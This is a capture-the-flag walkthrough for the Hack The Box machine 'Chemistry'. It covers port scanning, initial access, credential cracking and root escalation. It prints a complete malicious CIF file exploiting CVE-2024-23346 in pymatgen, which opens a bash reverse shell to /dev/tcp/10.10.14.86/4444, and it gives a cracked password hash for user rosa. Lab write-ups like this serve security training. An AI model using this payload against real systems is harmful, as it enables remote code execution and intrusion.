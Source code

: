 # Chemistry

## Enumeration

```bash
nmap -v -A -O -p- -T4 -Pn -sC chemistry.htb -oN nmap
```

```bash
Nmap scan report for chemistry.htb (10.10.11.38)
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Uptime guess: 8.610 days (since Tue Dec 31 18:57:15 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   47.28 ms 10.10.14.1
2   47.83 ms chemistry.htb (10.10.11.38)
```

If we try to enumerate some directories or files we will obtain this:

<figure><img src="../../.gitbook/assets/image (896).png" alt=""><figcaption></figcaption></figure>

## Foothold (app)

Searching on Google for some resources related to CIF files and exploit available, we will find that <mark style="color:yellow;">**CVE-2024-23346**</mark>

[https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)

Using this malicious file CIF we can obtain a reverse shell:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.14.86/4444 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Running a netcat listener and viewing the malicious file uploaded we will obtain a reverse shell:

<figure><img src="../../.gitbook/assets/image (897).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (898).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't read the rosa file user.txt containing the flag, so we need to escalate our user:

<figure><img src="../../.gitbook/assets/image (899).png" alt=""><figcaption></figcaption></figure>

Analyze the SQLite database using sqlite3:

<figure><img src="../../.gitbook/assets/image (900).png" alt=""><figcaption></figcaption></figure>

We will obtain the hash MD5 password of user "rosa", try to crack it:

`63ed86ee9f624c7b14f1d4f43dc251a5 -> unicorniosrosados`

<figure><img src="../../.gitbook/assets/image (901).png" alt=""><figcaption></figcaption></figure>

Easy man :police\_officer:, use SSH to login as rosa and get the user flag:&#x20;

<figure><img src="../../.gitbook/assets/image (902).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation (root)

Using LinPeas we can find that machine is vulnerable to CVE-2021-3560 but seems to be a false positive. Deep dive...

<figure><img src="../../.gitbook/assets/image (903).png" alt=""><figcaption></figcaption></figure>

We can look at active ports on machine other than 22 and 5000. There is 8080 running port:

<figure><img src="../../.gitbook/assets/image (904).png" alt=""><figcaption></figcaption></figure>

curling the 8080 port we will obtain this result:

<figure><img src="../../.gitbook/assets/image (905).png" alt=""><figcaption></figcaption></figure>

To explore website as a local website, we can use SSH Local Port Forwarding (L-Tunnel):

```bash
ssh -L 8080:localhost:8080 rosa@chemistry.htb
```

The web server seems to be strange:

<figure><img src="../../.gitbook/assets/image (906).png" alt=""><figcaption></figcaption></figure>

Using whatweb we can find the correct webserver provided by HTTP Headers:

<figure><img src="../../.gitbook/assets/image (907).png" alt=""><figcaption></figcaption></figure>

Searching on Google we can find a Path Traversal vulnerability:

{% embed url="https://github.com/z3rObyte/CVE-2024-23334-PoC" %}

To succesfully run the exploit we need to find a payload directory on which run path traversal exploit:

<figure><img src="../../.gitbook/assets/image (908).png" alt=""><figcaption></figcaption></figure>

Easy ffuf as always:

<figure><img src="../../.gitbook/assets/image (909).png" alt=""><figcaption></figcaption></figure>

Modify the script:

<figure><img src="../../.gitbook/assets/image (910).png" alt=""><figcaption></figcaption></figure>

Finally read the root flag :tada:

